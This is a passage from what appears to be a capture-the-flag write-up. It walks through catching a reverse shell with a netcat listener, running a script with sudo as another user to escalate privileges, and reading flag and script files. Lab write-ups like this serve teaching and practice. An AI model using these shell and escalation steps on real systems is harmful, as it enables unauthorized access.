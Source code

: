 Looks good. \
Now let's setup a listener on our attacker machine on the port we have chosen

```sh
nc -lvnp <ATTACKER_PORT>
```

Let's exit the sql with the `exit` keyword and try to run the getDreams.py file with sudo of death user one more time on the ssh connected as lucian.

```
sudo -u death python3 /home/death/getDreams.py
```

<figure><img src=".gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

And Boom we are Death now ! We can get the flag we wanted now

```
cat /home/death/death_flag.txt
```

<figure><img src=".gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

## FLAG 3 - Morpheus

Now that we are connected with death, let's try to read the getDreams.py that had a Redacted password Last time.

```sh
cat /home/death/getDreams.py
```

<figure><img src=".gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>
